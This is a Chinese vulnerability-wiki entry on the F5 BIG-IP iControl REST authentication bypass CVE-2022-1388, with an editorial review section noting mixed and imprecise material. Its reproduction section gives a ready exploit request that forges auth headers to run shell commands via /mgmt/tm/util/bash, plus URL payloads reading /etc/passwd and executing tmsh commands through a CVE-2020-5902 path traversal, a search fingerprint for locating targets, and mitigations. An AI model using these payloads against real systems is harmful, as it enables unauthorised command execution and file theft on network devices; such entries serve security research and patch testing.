


# F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：F5 BIG-IP iControl REST
- 本文讨论：CVE-2022-1388
- 版本、权限与配置前提：未认证REST请求；版本笼统11.6.1–16.1.2
- 资料类型：混杂PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 文件读取及RCE两段tmui/login.jsp/..;属于CVE-2020-5902路径，与主REST鉴权绕过混杂
- 跨分支版本区间不精确；示例Content-Length需重算
- 修复官方链接存在，但未把具体安全版提取出来
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 分支补丁与报文长度待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面




发送请求包(Host设为localhost)

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```




文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
RCE 
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
